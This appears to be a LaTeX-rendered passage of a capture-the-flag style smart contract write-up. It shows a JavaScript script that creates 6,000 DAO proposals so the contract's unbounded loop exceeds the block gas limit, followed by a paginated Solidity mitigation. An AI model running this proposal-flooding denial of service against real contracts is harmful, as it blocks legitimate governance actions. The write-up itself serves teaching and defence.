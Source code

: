 \documentclass[12pt]{article}
\begin{document}
\begin{verbatim}
// Create many proposals to cause a DoS attack
console.log("Creating many proposals to trigger a DoS attack...");

// Generate descriptions programmatically
const generateProposalDescription = (index) =>
    `Anti-Cat Proposal #${index}!`;

// Empty calldata for the proposals
const emptyCalldata = "0x";

// The number of proposals needed to cause a DoS
const NUM_PROPOSALS = 6000;
const BATCH_SIZE = 500;

console.log(`Adding ${NUM_PROPOSALS} proposals in batches of ${BATCH_SIZE}...`);

for (let batchStart = 0; batchStart < NUM_PROPOSALS; batchStart += BATCH_SIZE) {
    for (let i = 0; i < BATCH_SIZE && batchStart + i < NUM_PROPOSALS; i++) {
        const description = generateProposalDescription(batchStart + i);

        // Create a proposal with minimum value (to player address)
        await dao.connect(player).createProposal(
            description,
            player.address,
            1, // Minimal amount
            emptyCalldata
        );
    }

    const currentCount = await dao.getProposalCount();
    console.log(`Progress: ${currentCount} proposals created so far`);
}
\end{verbatim}

After adding 6,000 proposals to the DAO, any attempt to call \texttt{executeProposals()} will exceed the block gas limit, making it impossible to execute the cat charity proposal. The attack doesn't even need these proposals to pass - simply having a large number of proposals forces the \texttt{getWinningProposals()} function to iterate through all of them, requiring too much gas.

\subsection*{Mitigations}

To prevent this type of attack, smart contracts should avoid unbounded loops and implement proper pagination:

\begin{lstlisting}[language=Solidity]
// Instead of processing all proposals at once, use batch processing:
function executeProposalRange(uint256 startIndex, uint256 endIndex) external onlyMember {
    require(endIndex <= proposals.length, "Invalid range");
    require(endIndex > startIndex, "Invalid range");
    
    // Only iterate through a limited range
    for (uint256 i = startIndex; i < endIndex; i++) {
        Proposal storage proposal = proposals[i];
        
        // Process only if it's a winning proposal
        if (!proposal.executed &&
            proposal.voteCount > memberCount / 2 &&
            block.timestamp > proposal.createdAt + VOTING_PERIOD) {
            
            // Execute the proposal
            // ... (execution logic)
        }
    }
}
\end{lstlisting}
\end{document}
